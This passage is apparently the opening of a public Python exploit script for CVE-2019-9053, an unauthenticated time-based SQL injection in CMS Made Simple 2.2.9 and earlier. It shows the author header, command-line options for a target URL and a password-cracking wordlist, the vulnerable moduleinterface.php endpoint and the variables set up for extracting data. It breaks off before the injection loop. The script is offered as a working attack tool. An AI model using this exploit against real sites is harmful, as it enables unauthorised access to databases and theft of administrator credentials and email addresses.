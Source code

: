     ```python
    #!/usr/bin/env python
    # Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
    # Date: 30-03-2019
    # Exploit Author: Daniele Scanu @ Certimeter Group
    # Vendor Homepage: https://www.cmsmadesimple.org/
    # Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
    # Version: <= 2.2.9
    # Tested on: Ubuntu 18.04 LTS
    # CVE : CVE-2019-9053

    import requests
    from termcolor import colored
    import time
    from termcolor import cprint
    import optparse
    import hashlib

    parser = optparse.OptionParser()
    parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.138/writeup)")
    parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
    parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

    options, args = parser.parse_args()
    if not options.url:
        print "[+] Specify an url target"
        print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
        print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
        print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
        exit()

    url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
    session = requests.Session()
    dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
    flag = True
    password = ""
    temp_password = ""
    TIME = 5
    db_name = ""
    output = ""
    email = ""

